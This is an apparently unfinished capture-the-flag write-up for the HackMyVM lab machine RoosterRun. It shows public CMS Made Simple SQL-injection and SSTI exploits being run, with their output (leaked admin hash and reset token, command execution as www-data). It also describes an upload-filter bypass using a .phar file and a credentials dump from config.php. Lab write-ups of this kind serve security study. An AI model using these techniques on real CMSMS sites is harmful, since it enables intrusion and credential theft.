# RoosterRun - A HackMyVM Machine
## Enumeration
MACHINE IP: [MACHINE IP]
<br/>
Port 80:<br/>
	- Uses CMS Made Simple version 2.2.9.1<br/>
	- It's also running apache httpd.<br/>
	- msfconsole has exploits for this version of CMSMS but none of them work.
<br/>

ON RUNNING THE EXPLOITDB tool `https://www.exploit-db.com/exploits/46635` after debugging:<br/>
---BEGIN OUTPUT---
```
[+] Salt for password found: 1a0112229fbd699d
[+] Username found: admin
[+] Email found: admin@localhost.com
[+] Password found: 4f943036486b9ad48890b2efbf7735a8
```
---END OUTPUT---

But, directly inputting this password doesn't appear to work, so I am assuming that the password is encrypted (it is actually encrypted with a salt and md5). 

But when using this exploit `https://srcincite.io/pocs/cve-2021-26120.py.txt`, we get this output
Command: 
```bash
python ssti_exploit.py [MACHINE IP] / "whoami"
```
---BEGIN OUTPUT---
```
(+) targeting http://192.168.1.102/
(+) sql injection working!
(+) leaking the username...
(+) username: admin
(+) resetting the admin's password stage 1
(+) leaking the pwreset token...
(+) pwreset: c1e98093f7bc11fa29534207132e97e3
(+) done, resetting the admin's password stage 2
(+) logging in...
(+) leaking simplex template...
(+) injecting payload and executing cmd...

www-data
```
---END OUTPUT---

You can see that it has output ***www-data*** as the current user. However, this command execution is only arbitrary.

This cannot achieve a reverse shell however. So instead, I went through the code and found out, that this exploit *reset the admin username and password* to ***admin:admin***.

## Initial Access
This way, we can login to the admin page, and try to get RCE from there.

Now, in the admin page, there is a file manager, which allows for file uploads. However, it blocks all php file uploads, so instead I changed my .php file to a .phar file. This allows the upload, and enables rce as www-data.

On looking at config.php in the var/www/html folder, we see this snippet:<br/>
---BEGIN OUTPUT---
```php
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'admin';
$config['db_password'] = 'j42W9kDq9dN9hK';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin'
```
---END OUTPUT---

We'll use this to connect to the mysql database with the command:
```bash
mysql -u admin -h localhost -p
```
And then enter the password.

Here, we can use standard mysql commands in a MariaDB server to sift through the database, but this doesn't yield any results.

On enumrating further, we find that a user ***matthieu*** exists, which contains the user flag.

However, I have not managed to gain access as matthieu yet.

